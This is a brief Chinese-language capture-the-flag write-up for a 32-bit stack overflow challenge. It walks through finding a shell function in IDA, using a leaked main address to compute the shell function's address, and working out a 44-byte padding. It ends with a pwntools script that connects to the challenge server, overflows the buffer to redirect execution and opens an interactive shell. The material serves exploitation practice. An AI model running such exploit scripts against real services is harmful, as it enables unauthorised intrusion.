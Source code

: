 1. 用ida打开，看到一个shell函数，打开看  
![alt text](image.png)  
想必是栈溢出  

2. 看反汇编代码  
![alt text](image-1.png)  
![alt text](image-3.png)

可以看出这是32位，从地址位数和寄存器都可以看出shell地址是0x80f，main函数地址是0x770，main函数中输出了main函数的地址，那么接受main函数的地址后可以根据偏移量计算shell地址  

3. 在vuln函数中可以实现栈溢出  
![alt text](image-2.png)  

首先push %ebp，4字节，然后sub 0x28 %esp，这是给数组申请空间，一共有44字节  

4. payload  

```py
from pwn import*

re=remote("node5.anna.nssctf.cn","26509")
re.recvuntil('gift!\n')
main_add=int(re.recv(10),16)
paload=b'b'*(44)+p32(main_add+0x9f)  
re.sendline(paload)  
re.interactive()

```
